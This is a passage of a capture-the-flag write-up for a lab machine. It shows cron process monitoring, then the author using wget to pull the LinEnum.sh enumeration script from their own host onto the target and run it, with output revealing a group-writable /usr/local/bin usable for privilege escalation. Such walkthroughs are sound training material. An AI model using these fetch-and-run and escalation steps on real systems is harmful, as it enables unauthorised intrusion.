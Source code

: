 ```
> /usr/sbin/CRON
> /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
> /usr/bin/perl /root/bin/cleanup.pl
< /usr/sbin/cron
< /usr/sbin/CRON
< /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
< /usr/bin/perl /root/bin/cleanup.pl
> [proc.sh] <defunct>
< [proc.sh] <defunct>
> /bin/sh /sbin/dhclient-script
> /bin/sh /sbin/dhclient-script
< /bin/sh /sbin/dhclient-script
< /bin/sh /sbin/dhclient-script
> [proc.sh] <defunct>
< [proc.sh] <defunct>
> [proc.sh] <defunct>
< [proc.sh] <defunct>
^C
jkr@writeup:/tmp$ 

```

So what does the cleanup script clean? I have no idea.

I set up a simplehttp python webserver and download Linenum.sh to the target machine

```
jkr@writeup:~$ wget 10.10.14.60:8000/LinEnum.sh
--2021-03-04 01:46:07--  http://10.10.14.60:8000/LinEnum.sh
Connecting to 10.10.14.60:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                             100%[============================================================================>]  45.54K  --.-KB/s    in 0.05s   

2021-03-04 01:46:07 (885 KB/s) - ‘LinEnum.sh’ saved [46631/46631]

jkr@writeup:~$ chmod 777 LinEnum.sh
jkr@writeup:~$ ./LinEnum.sh > enum
jkr@writeup:~$ more enum

```


I see that /usr/local/bin belongs to the staff group here.


```
[-] Path information:
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
drwxr-xr-x 2 root root   4096 Apr 19  2019 /bin
drwxr-xr-x 2 root root  20480 Aug 23  2019 /usr/bin
drwxr-xr-x 2 root root   4096 Jun  3  2018 /usr/games
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwxrwsr-x 2 root staff  4096 Apr 19  2019 /usr/local/games
```

